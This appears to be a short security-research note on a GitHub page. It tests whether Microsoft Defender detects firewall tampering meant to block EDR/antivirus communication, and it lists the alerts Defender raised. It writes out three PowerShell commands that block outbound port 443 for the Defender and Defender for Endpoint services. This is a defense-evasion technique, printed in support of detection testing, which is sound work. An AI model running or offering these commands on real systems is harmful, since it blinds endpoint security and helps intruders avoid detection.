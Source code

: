 # Firewall Tampering, Blocking EDR/AV communication
Microsoft Defender Antivirus detects and **prevents tampering** with the creation of firewall rules for both Microsoft Defender for Endpoint and Microsoft Defender Antivirus.

**[Bypassing Defender EDR using Windows Firewall - mitigations](https://write-verbose.com/2022/05/31/EDRBypass/)**
```Powershell
New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```


## Alerts & Detections
After testing, Microsoft Defender Antivirus detected these alerts.

- [x] An active 'MpTamperBlockNewFirewall' malware was prevented from executing via AMSI
- [x] An active 'DefenderFirewallTamper' malware in a command line was prevented from executing
- [x] Suspicious 'WDBlockFirewallRule' behavior was blocked

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/7d86f078-852b-482b-bd4d-51c4b79c467d)

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/1dd25ae9-0f60-4391-93a1-a5b3b1bc3118)


#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
